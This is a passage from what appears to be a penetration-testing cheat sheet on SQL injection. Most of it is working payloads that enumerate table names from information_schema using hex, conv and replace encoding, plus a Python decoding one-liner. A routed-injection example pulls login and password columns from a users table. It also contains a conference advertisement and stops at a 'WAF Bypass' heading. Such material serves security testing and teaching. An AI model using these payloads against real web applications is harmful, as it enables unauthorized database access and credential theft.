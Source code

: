 ```sql
'+(select conv(hex(substr(table_name,1,6)),16,10) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```

To get the text you can use:

```python
__import__('binascii').unhexlify(hex(215573607263)[2:])
```

Using **hex** and **replace** (and **substr**):

```sql
'+(select hex(replace(replace(replace(replace(replace(replace(table_name,"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

'+(select hex(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

#Full ascii uppercase and lowercase replace:
'+(select hex(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%"),"z","&"),"J","'"),"K","`"),"L","("),"M",")"),"N","@"),"O","$$"),"Z","&&")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```

​

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​​​[**RootedCON**](https://www.rootedcon.com/) is the most relevant cybersecurity event in **Spain** and one of the most important in **Europe**. With **the mission of promoting technical knowledge**, this congress is a boiling meeting point for technology and cybersecurity professionals in every discipline.

{% embed url="https://www.rootedcon.com/" %}

## Routed SQL injection

Routed SQL injection is a situation where the injectable query is not the one which gives output but the output of injectable query goes to the query which gives output. ([From Paper](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Routed%20SQL%20Injection%20-%20Zenodermus%20Javanicus.txt))

Example:

```
#Hex of: -1' union select login,password from users-- a
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```

## WAF Bypass
